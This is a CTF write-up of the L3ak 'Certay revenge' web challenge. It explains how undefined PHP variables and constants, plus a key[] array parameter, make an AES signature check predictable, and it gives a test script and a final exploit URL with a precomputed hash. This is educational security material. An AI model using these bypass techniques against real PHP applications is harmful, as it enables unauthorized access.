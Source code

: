 ```yaml
---
title:  "Certay revenge Web Challenge - From L3ak CTF"
description: Web challenge from L3ak CTF, a simple note-taking system with user authentication, where the goal is to bypass the required hash using PHP language pitfalls.
image: 
  path: /assets/img/blog/attachments-certay
tags: [ctf, web, PHP, AES, pitfalls]
date:   2025-07-15 13:49:56 +0300
categories: [CTFs]
---
```

**Last Modified: 2025-07-14 06:51**

> Probably you need to understand our language to get some of the super powers?

The challenge mainly is about spotting pitfalls of PHP to be able to bypass bypass the required hash.

The web application is a simple note-taking system with user authentication:

1. **User Registration/Login**: Users can register and login via register.php and login.php
2. **Session Management**: PHP sessions track logged-in users with `$_SESSION['user_id']`
3. **Note Storage**: Users can store private notes via post_note.php
4. **Dashboard Access**: dashboard.php displays notes after signature verification

### Normal Authentication Flow
```php
// Login creates session
$_SESSION['user_id'] = $user_id;
$_SESSION['yek'] = openssl_random_pseudo_bytes(16); // 16-byte session key

// Dashboard requires both session AND signature verification
if (!isset($_SESSION['user_id'])) {
    header('Location: login.php');
    exit;
}

// Additional signature check for sensitive operations
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Execute stored notes via eval()
}
```

### Encryption Implementation
#### Encryption Functions
```php
function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
```
#### Signature Verification Logic
```php
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Authentication successful - execute user notes
    eval($content);
}
```
**How it's supposed to work:**

1. `safe_sign($_GET['key'])` encrypts user input with server's secret `KEY`
2. Result becomes IV for `custom_sign()`
3. `custom_sign()` encrypts `$_GET['msg']` using session key `$yek`
4. Final result must match `$_GET['hash']`

The app takes three parameters and do that :
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716130912.png>)


## Exploit Chain
### PHP Language Pitfalls Exploited
#### Undefined Constant Behavior
```php
<?php
define('yek', $_SESSION['yek']);

// Later in code:
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```

**Pitfall**: `$yek` (variable) vs `yek` (constant)

- **Expected**: `$yek` should reference the constant `yek`
- **Reality**: `$yek` is an undefined variable, defaults to `null`, if you want to use the defined value you should use `yek` instead of `$yek`
- **Impact**: Encryption key becomes empty string instead of 16-byte session key (as the second parameter to `custom_sign() is the encryption key.)

####  Undefined Constant String Conversion

```php
return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
```

**Pitfall**: `iv` constant is never defined

- **Expected**: `iv` should be a defined constant
- **Reality**: PHP converts undefined constant to string `"iv"`. so the `iv` will become literally "iv"
- **Impact**: IV becomes predictable 2-byte string instead of random 16 bytes
####  OpenSSL IV Padding Behavior (it's not a pitfall)

```php
openssl_encrypt($data, 'aes-256-cbc', KEY, 0, "iv");
```
 AES-256-CBC requires exactly 16-byte IV

- **Input**: `"iv"` (2 bytes)
- **OpenSSL behavior**: Pads with null bytes to 16 bytes
- **Result**: `"iv\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"` (predictable)
#### 4. Array Parameter Handling

```php

if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**Pitfall**: `openssl_encrypt()` expects string, receives array

- **Input**: `key[]` creates `$_GET['key'] = []` (empty array)
- **OpenSSL behavior**: Returns :

```
Warning: openssl_encrypt() expects parameter 1 to be string, array given in /home/user/scripts/code.php on line 7
NULL
```
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716132852.png>)

- **Impact**: 

```php
// URL: dashboard.php?key[]

// Creates: $_GET['key'] = []

// Results in: safe_sign([]) → NULL

// Then: custom_sign($_GET['msg'], $yek, NULL)
// yek is also empty, we showed that previously

```

*The Real Signature Check is* :
```php
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```
but with such behaviors it becomes:
```php

custom_sign($_GET['msg'], null, NULL) === $_GET['hash']
``` 
which is :
```php
openssl_encrypt($_GET['msg'], 'aes-256-cbc', '', 0, NULL) === $_GET['hash']
```
**How NULL is Handled as IV**

When `NULL` which is `$yek` is passed as the IV parameter:

- **PHP converts `NULL` to empty string `""`**
- **OpenSSL pads empty string to 16 bytes with null bytes**
- **Effective IV becomes 16 null bytes**
*To make sure of this behavior i created this test:*

```php

// Test the actual behavior

$result1 = openssl_encrypt("test", 'aes-256-cbc', '', 0, NULL);

$result2 = openssl_encrypt("test", 'aes-256-cbc', '', 0, false);

$result3 = openssl_encrypt("test", 'aes-256-cbc', '', 0, "");

  

echo "NULL IV: " . $result1 . "\n";

echo "false IV: " . $result2 . "\n";

echo "empty string IV: " . $result3 . "\n";

?>

output :
NULL IV: 2HB5iFgiP0Vk00CxA/ZSew==

false IV: 2HB5iFgiP0Vk00CxA/ZSew==

empty string IV: 2HB5iFgiP0Vk00CxA/ZSew==

```

**So now all i need making these nested conditions returns true :**

```php
if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**All parameters now predictable:**

- **Message**: `$_GET['msg']` (user controlled)
- **$yek** : Empty
- **safe_sign($\_GET['key']))**: `''` (empty string from null, it's NULL because of `GET['key'` is set to `key[]` )

### Exploit

```
http://server/dashboard.php?msg=test&key[]=&hash=2HB5iFgiP0Vk00CxA%2FZSew%3D%3D
```

![Getting the Flag](<../assets/img/blog/attachments-certay/Screenshot 2025-07-14 161837.png>)
